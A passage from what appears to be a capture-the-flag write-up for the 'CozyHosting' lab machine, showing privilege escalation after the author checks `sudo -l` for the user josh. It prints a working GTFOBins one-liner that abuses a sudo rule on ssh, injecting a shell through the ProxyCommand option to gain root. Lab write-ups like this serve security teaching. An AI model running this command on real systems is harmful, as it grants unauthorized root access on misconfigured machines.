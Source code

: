 ## Privilege Escalation

Now for another round of enumeration to look for a privilege escalation path.  

Since I have `josh`'s password I can check what commands he is allowed to run as `root` via `sudo -l`.
```
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
  
The path for getting a shell from `ssh` while it has `root` privileges can be found on this [GTFO Bins Page](https://gtfobins.github.io/gtfobins/ssh/#sudo).
- `sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
  
![Root Flag | 600](./screenshots/cozyhosting_root_flag.png)  